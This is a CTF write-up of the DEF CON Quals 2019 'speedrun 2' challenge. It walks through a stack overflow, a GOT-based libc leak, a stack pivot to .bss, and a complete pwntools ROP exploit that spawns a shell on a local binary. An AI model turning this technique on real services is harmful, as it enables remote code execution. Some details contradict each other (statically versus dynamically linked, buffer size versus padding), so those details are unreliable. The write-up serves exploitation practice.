

# SpeedRun 2

This is the second speedrun challenge for DEF CON Quals 2019. The speedrun challenges look like they are intended to be a little simpler than the standard pwnable challenges: they are meant for people to practice their skills, and accordingly I found them instructive. This one I downloaded during the competition and solved afterwards.

### Reconnaissance

The second speedrun challenge is a 64-bit ELF binary with no PIE, no canary, and partial RELRO. It's also statically linked, so it was obvious at a first glance that I would have access to any gadget I wished for ROP. Accordingly, my intuition was to find the buffer overflow vulnerability first.

I found the security feature that was keeping me from attaching a debugger in Speedrun 1 -- it was easy to find, I was just in a hurry last time. running `strings` on the file shows `DEBUG` to be in the binary somewhere, and that leads me to:


So, attaching a debugger will trigger an alarm within five seconds. I disabled the alarm with a hex editor, and could debug the binary to my heart's content.

Okay, here's some sample interaction with the program:

```
We meet again on these pwning streets.
What say you now?
>Everything intelligent is so boring.
What an interesting thing to say.
Tell me more.
>Hello
Fascinating.
Fare thee well.
```

The first line of input has to start with "Everything intelligent is so boring." But then I have a huge number of characters that I can send in, except that it is still less than the buffer size. At least I can get input onto the stack.

The vulnerable function comes with the next `read`:


Here we read `0x7da` bytes into a buffer of size `0x8`. I'm ready to do a ROP chain.

### Developing the Exploit

In this case I have far fewer gadgets to work with, since the binary isn't statically linked. I'm not given the `libc.so.6` file. One thought I have is to try to leak `libc` addresses from the `GOT` and then fingerprint it. Another approach is to try to put together a call to `execve` from what I've got, but there's no `syscall`. The stack isn't executable, so shellcode is not an option. Let me look for functions I can use in the binary.

Well, I didn't see anything right away -- as a sanity check, I looked at some other write-ups just to see if the `libc` file was provided and I forgot to download it. [One](https://github.com/guyinatuxedo/ctf/tree/master/defconquals2019/speedrun/s2) stated, without explanation, that the proper `libc` is `libc-2.27.so` for Ubuntu 18.04. A [second](https://www.youtube.com/watch?v=FWLD3Ne_CUc&feature=youtu.be) actually does a lookup given an offset leaked from the GOT. Great! I've never had the occasion to do that, I've always been given the `libc` version. But this is much more realistic and a useful skill to pick up from this problem. Okay, let's do this. I guess I'll leak `read` since that video appears to be leaking `puts`.

So I'll pop `rdi`, put the address of `read` from the GOT in there, call `puts`, print that address out, and go ahead and let the program crash. No need to pivot to the `.bss` section and return to `main`, that's more than I need to do.

Wow, that's really great! I leaked the address of `read`, went [here](https://libc.blukat.me/), entered `__read` and the `libc` address for my (local) binary, got one match, downloaded it, and sure enough the hashes were the same as my own `libc`. Very useful. So that gives me the offset for `system`! Okay, I still need to leak a `libc` address and pivot to the `.bss` section, but that's how I get the `libc.so.6` file. Sweet.

To call `puts`, I decided to step into the function that greets the user:


Then, I pop `rdi`, placing an address in the `.bss` section into `rdi`, and return to the instruction `mov [rbp + buf], rdi` in `vuln`. That lets me read `/bin/sh` into the `.bss` section, along with the rest of my ROP chain. I pivot to that ROP chain and then call `system`. Here's the exploit code.

```

from pwn import *
from time import sleep

local = True
if local:
	p = process('./speedrun-002-copy')
	DELAY = 0.1

p.recvuntil("?")
p.send("Everything intelligent is so boring.\n")
p.recvuntil("more.")

sleep(2)

# 0x00000000004008a3 : pop rdi ; ret
POP_RDI_ADDR = 0x4008a3
CALL_PUTS_ADDR = 0x4006fd # 0x400718
PUTS_GOT_ADDR = 0x601040
READ_OFFSET = 0x110070
SYSTEM_OFFSET = 0x04f440
BSS_OLD_RBP = 0x601800 + 0x8
MAIN_ADDR = 0x40074d # I want to pivot to the .bss section so I know where /bin/sh is

payload = "A"*1024
payload += p64(BSS_OLD_RBP)
payload += p64(POP_RDI_ADDR)
payload += p64(PUTS_GOT_ADDR)
payload += p64(CALL_PUTS_ADDR)
payload += p64(BSS_OLD_RBP) # There's a pop rbp to deal with
payload += p64(POP_RDI_ADDR)
#  read data to this location. Start with the ROP
#  chain and then add the /bin/sh string higher up.
payload += p64(BSS_OLD_RBP)
payload += p64(0x40070d) # load [rbp-8] into rdx and that's where we read to
payload += p64(BSS_OLD_RBP) # for the leave instruction
payload += p64(BSS_OLD_RBP) # continue the ROP chain here
payload += "\n"
p.send(payload)

p.recvuntil("Fascinating.\n")

## Get the address of read in libc
READ_ADDR = u64(p.recv(6) + "\x00\x00")
#log.info("read address = " + hex(READ_ADDR))

SYSTEM_ADDR = READ_ADDR - READ_OFFSET + SYSTEM_OFFSET
p.recvuntil("more.")

## Execute system('/bin/sh')
payload2 = "A"*8
payload2 += p64(POP_RDI_ADDR)
payload2 += p64(BSS_OLD_RBP + 48)
payload2 += p64(SYSTEM_ADDR)
payload2 += "C"*16
payload2 += "/bin/sh\x00"  # I'll just find where this ends up with GDB
payload2 += "\n"

sleep(2)
p.send(payload2)
p.interactive()
```

And the exploit in action!



### Comparison to Other Approaches

The general theme is the same in the write-ups on CTF Time. [guyinatuxedo](https://github.com/guyinatuxedo/ctf/tree/master/defconquals2019/speedrun/s2) and [wotmd](https://github.com/wotmd/CTF_Exploit/blob/master/DEFCON_CTF_2019/speedrun002/attack_speedrun002.py) save themselves some time by using One Gadget, so they don't need to pivot to the `.bss` section. I should get used to doing that as well.
